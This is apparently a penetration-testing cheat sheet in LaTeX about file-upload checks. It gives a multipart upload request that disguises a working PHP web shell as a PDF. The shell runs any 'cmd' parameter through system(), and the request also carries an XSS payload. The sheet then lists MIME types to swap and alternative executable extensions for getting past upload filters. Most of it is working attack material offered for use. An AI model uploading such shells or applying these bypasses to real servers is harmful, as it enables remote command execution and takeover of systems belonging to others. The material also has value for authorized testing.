 \section{File upload feature check: Webshell upload test}

\begin{lstlisting}[numbers=none]
https://github.com/TheBinitGhimire/Web-Shells
\end{lstlisting}

\begin{lstlisting}[numbers=none]
Content-Disposition: form-data; name="file"; filename="documento.php"
Content-Type: application/pdf

text/x-php

\%PDF-1.7
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<p>This is an example of webshell to execute commands in remote server:</p>
<pre>
<?php
   if(isset($_GET['cmd']))
   {
       system($_GET['cmd']);
   }
?>
<script>javacript:alert('XSS PAYLOAD')</script>
</pre>
</body>
</html>
\%\%EOF

\end{lstlisting}


Change de MimeType to render.

\begin{lstlisting}[numbers=none]

Content-Type: application/x-php

text/x-php
text/html
text/plain
text/x-php
application/x-php
application/x-httpd-php
application/x-httpd-php-source

\end{lstlisting}


Other useful extensions:

\begin{enumerate}
    \item PHP: .php, .php2, .php3, .php4, .php5, .php6, .php7, .phps, .phps, .pht, .phtm, .phtml, .pgif, .shtml, .htaccess, .phar, .inc
    \item ASP: .asp, .aspx, .config, .ashx, .asmx, .aspq, .axd, .cshtm, .cshtml, .rem, .soap, .vbhtm, .vbhtml, .asa, .cer, .shtml
    \item JSP: .jsp, .jspx, .jsw, .jsv, .jspf, .wss, .do, .action Coldfusion: .cfm, .cfml, .cfc, .dbm
    \item Flash: .swf
    \item Perl: .pl, .cgi
\end{enumerate}
 
